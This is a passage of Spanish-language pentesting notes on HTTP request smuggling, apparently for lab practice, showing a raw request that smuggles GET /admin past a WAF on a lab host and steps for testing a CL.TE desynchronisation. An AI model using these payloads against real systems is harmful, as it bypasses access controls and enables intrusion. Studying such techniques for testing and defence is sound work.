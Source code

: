 >[!note]
>No olvide desmarcar la opcion de actualizar el `Content-Length`.

lo enviamos y veremos que en la peticion GET se tiene el error esperado de la desincronizacion:

![[Pasted image 20230516151340.png]]

### Bypass Block URL 

Supongamos que el WAF bloquea cualquier URL que contenga `/admin`. El panel de administracion se encuentra ahi, **si la pagina es vulnerable a HTTP Request Smuggling** podemos obtener el contenido del panel administrador y evadir el WAF:

>[!note]
>Se debe adaptar segun el tipo de vulnerabilidad: **CL.TE**, **TE.TE** o **TE.CL**.

```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0

GET /404 HTTP/1.1
Host: tecl.htb
```

**_ASI LO VE EL WAF_**

![[Pasted image 20230516151718.png]]

**_ASI LO VE EL BACKEND_**

![[Pasted image 20230516151831.png]]

## Explotacion

### HTTP request smuggling, basic CL.TE vulnerability

para probar el tipo **CL.TE** hacemos la siguiente:

![[Pasted image 20230220183002.png]]

1. Cambiamos el metodo a POST (para que acepte enviar body)
2. el header `connection` le damos el valor de `keep-alive`
3. colocamos los headers `Content-Length` y `Transfer-Encoding`
4. la longitud de body es 6 (4 espacios + 0 + G)
5. 0 determina el fin de `Transfer-Encoding`
6. El servidor tomara G como la comienzo de otra solicitud
7. la siguiente solicitud se concatenara una"G"
